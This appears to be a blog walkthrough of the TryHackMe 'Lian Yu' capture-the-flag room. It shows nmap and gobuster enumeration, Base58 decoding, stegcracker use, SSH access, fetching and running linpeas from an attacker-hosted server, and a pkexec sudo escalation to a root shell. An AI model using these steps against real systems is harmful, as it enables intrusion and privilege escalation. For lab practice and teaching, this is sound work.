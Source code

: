 ```yaml
---
layout: post
title: " Lian Yu - TryHackMe"
date: 2020-07-13
excerpt: "Walkthrough for Lian Yu on TryHackme"
tags: [Lian Yu, TryHackMe, privilege escalation, steganography, website enumeration]
comments: false
---
```


Lian Yu is another beginner level challenge on [TryHackMe](https://www.tryhackme.com). Below is a walkthrough to Find all the flags.

First, let's run nmap with **nmap -sC -sV -T4 [machine ip]**

![Lian Yu nmap](/assets/img/LianYu1.png)

It appears that there is ftp, ssh, tcp, and rpc open. Let's start by taking a look at the website in a web browser. It appears that this website is based on the DC comic book hero, Arrow.

![Lian Yu website](/assets/img/LianYu2.png)

Let's use gobuster to enumerate the website with **gobuster dir -u [machine ip] -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt**. After a bit, an **island** subdirectory shows up.

![Lian Yu gobuster](/assets/img/LianYu3.png)

Let's visit the page. It looks like there's a code word, but it doesn't appear to be there. Highlighting the entire page causes it to show up, however.

![Lian Yu island page](/assets/img/LianYu4.png)

Lian_Yu appears in bold, so let's try both ftp and ssh as Lian_Yu with the code word we uncovered. Unfortunately, neither one was successful.

![Lian Yu failed ssh and ftp](/assets/img/LianYu5.png)

We will make note of this code word for later. Next, the hint for the first question states that the directory is in numbers. It also appears to be 4 digits in length. Let's create a file that contains numbers from 0000 to 9999 with the following **seq -w 9999  > pins.txt**. This will create a text file (pins.txt) with this number range in it. Now let's run **gobuster dir -u http://[machine ip]/island -w pins.txt** and see what shows up. It appears there is another subdirectory of **2100** underneath island. This is the answer to the first question.

![Lian Yu gobuster 2100](/assets/img/LianYu6.png)

There is a video on this page, but it appears to be a part of the first episode of the Arrow television series, which doesn't seem to have any relevance to this challenge. When I look at the source of the page, however, there is a comment as shown below.

![Lian Yu 2100 page source](/assets/img/LianYu7.png)

The hint for this question mentions searching for a file by extension, maybe .ticket is the file extension? I navigated to the dirbuster wordlist with **cd /usr/share/wordlists/dirbuster** and ran **pw-inspector -i directory-list-lowercase-2.3-medium.txt -m 11 - M 11 -o ~/arrow.txt**. I knew the file was 11 characters in length before the potential extension of ticket based on the format of the answer in TryHackMe. I then used this as the wordlist in gobuster under the /island/2100 directory as follows **gobuster dir -u http://[machine ip]/island/2100/ -w arrow.txt -x .ticket**. Within a couple of moments it uncovers **green_arrow.ticket**.

![Lian Yu green_arrow.ticket](/assets/img/LianYu8.png)

Let's navigate to that page. We are provided with a "token". The hint states it appears to be base, so use cyberchef as recommended and you will eventually figure out it was encoded in Base58. This decoded is the ftp password, which is the answer to the 3rd question.

![Lian Yu Base 58 decode](/assets/img/LianYu10.png)

Let's try logging in to the site via ftp, as we have the password. Remember the code word that we uncovered earlier? Let's see if that's the user.

![Lian Yu FTP Access](/assets/img/LianYu11.png)

Success! Let's see what's on this ftp site.

![Lian Yu ftp directory listing](/assets/img/LianYu12.png)

Let's save all these pictures and see what they are with **get Leave_me_alone.png, get Queen's_Gambit.png,** and **get aa.jpg**.

![Lian Yu get files](/assets/img/LianYu13.png)

Let's type **quit** and then open up these images to see what's in them. **aa.jpg** and **Queen's_Gambit.png** open fine, but there is an error when attempting to open **Leave_me_alone.png**. .jpg files can be used in steganography, so let's use stegcracker with **stegcracker aa.jpg**. After a few moments, it uncovers the password of **password**, and extracts the contents to **aa.jpg.out**.

![Lian Yu stegcracker](/assets/img/LianYu14.png)

Running **file aa.jpg.out** reveals that this is a zip file, let's rename it to .zip with **mv aa.jpg.out aa.zip**

![Lian Yu change file to zip](/assets/img/LianYu15.png)

Inside the zip files are two files, one is a 5 character name, which is the answer to the next question.

![Lian Yu Open Zip File](/assets/img/LianYu16.png)

The five letter file name includes the ssh password. However, we do not have a username and vigilante does not work this time around. Let's reconnect as vigilante via ftp and type **cd ..** followed by **ls** to list all the user directories. There is another user directory present.

![Lian Yu enumerate user folders via ftp](/assets/img/LianYu17.png)

It appears that slade is another user. Let's try logging in via ssh as slade with **ssh slade@[machine ip]** and utilize the password uncovered in the zip file earlier. Success, let's run **ls** and a user.txt file is there. Let's run **cat user.txt** to uncover the user flag.

![Lian Yu ssh connection](/assets/img/LianYu19.png)

Let's use linpeas to enumerate this host for interesting files. First, let's server up an http server on your attacking pc with **python3 -m http.server**

![Lian Yu Python HTTP Server](/assets/img/LianYu20.png)

Now, let's navigate to the /tmp folder on our victim with **cd /tmp** since it's typically a world writeable directory. Next, let's use **wget http://[attacker ip]:8000/linpeas.sh** followed by **chmod 777 linpeas.sh** and finally **./linpeas.sh** to start enumerating our host. Unfortunately, this does not turn up much. Let's run **sudo -l** and see what shows up.

![Liam Yu sudo -l](/assets/img/LianYu22.png)

Awesome, we can execute pkexec as sudo. Let's run **sudo /usr/bin/pkexec /bin/sh**. Now we have a root shell.

![Lian Yu Root Shell](/assets/img/LianYu23.png)

Now let's run **cd /root**, followed by **ls**, and then finally, **cat root.txt** to get the final flag.

![Lian Yu Root Flag](/assets/img/LianYu24.png)

